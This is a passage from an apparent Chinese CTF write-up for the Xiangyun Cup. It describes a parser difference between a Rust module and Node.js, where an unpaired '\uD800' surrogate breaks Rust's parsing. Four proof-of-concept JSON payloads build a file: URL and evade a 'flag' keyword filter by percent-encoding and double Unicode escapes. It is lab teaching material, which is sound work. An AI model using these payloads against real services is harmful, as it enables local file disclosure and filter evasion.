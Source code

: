 rust不支持解析UTF-16字符集所以使用UTF-16中的有一个unicode编码`\uD800`可以让rust解析出错直接返回原数据, 而nodejs正常解析UTF-16不会报错

```http
{
    "protocol":"file:",
    "\uD800":"",
    "href":"1",
    "origin":"1",
    "pathname":"/%66%6c%61%67",
    "hostname":""
}
```

POC2:

这里的原理是直接按照rust中的`File`结构体顺序可以进行一一对应赋值

```http
[
    "file:",
    "1",
    "1",
    "/%66%6c%61%67",
    ""
]
```

除此之外想到json解码的时候会进行Unicode解码, 所以如果单纯是想要绕过`flag`关键字的话应该还有一种方法就是二次unicode, 第一次的unicode被传入rust进行解析, 解析后的Unicode会被返回到app.js, 然后app.js进行json解析的时候再进行一次Unicode解析, 所以应该说还有POC3和POC4

POC3:

```http
{
    "protocol":"file:",
    "\uD800":"",
    "href":"1",
    "origin":"1",
    "pathname":"/\u0066\u006c\u0061\u0067",
    "hostname":""
}
```

POC4:

```http
[
    "file:",
    "1",
    "1",
    "/\u0066\u006c\u0061\u0067",
    ""
]
```

这是本地运行祥云杯的程序之后的截图, paylaod可能看起来比较奇怪, 但是如果仔细看了前面的整篇文章的话相信对这个payload的构造没有什么疑惑的

![image-20221031220003626](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-5cf334c2dcaf002277fd3b19f3c2340257ab4ff9.png)